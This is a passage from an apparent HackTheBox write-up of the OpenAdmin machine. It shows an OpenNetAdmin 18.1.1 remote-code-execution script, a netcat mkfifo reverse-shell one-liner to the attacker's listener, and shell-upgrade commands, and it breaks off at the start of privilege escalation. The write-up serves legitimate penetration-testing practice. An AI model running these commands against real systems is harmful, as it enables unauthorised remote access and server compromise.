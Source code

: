 It's time to exploit the vulnerability, just replace the check with exploit in the command above:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/openadmin]
└─$ python3 ona-rce.py exploit http://openadmin.htb/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I got a shell as www-data. In this shell, I cannot change directories, so I spawn a better reverse shell:

```bash
sh$ which nc
/bin/nc
sh$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.6 4444 >/tmp/f
```

Now, look at the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/openadmin]
└─$ nc -lvnp 4444                                  
listening on [any] 4444 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.171] 59790
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@openadmin:/opt/ona/www$ export TERM=xterm
export TERM=xterm
www-data@openadmin:/opt/ona/www$ ^Z
zsh: suspended  nc -lvnp 4444

┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/openadmin]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444

www-data@openadmin:/opt/ona/www$
```

I have a better shell now, so I can go on with the privesc.

# Privilege Escalation

---

## www-data → jimmy

---

I ran LinPEAS, but it could not find many useful things. One of the only dirs I can access is the web server, so I checked it again. I found a php file which connects to the local database:
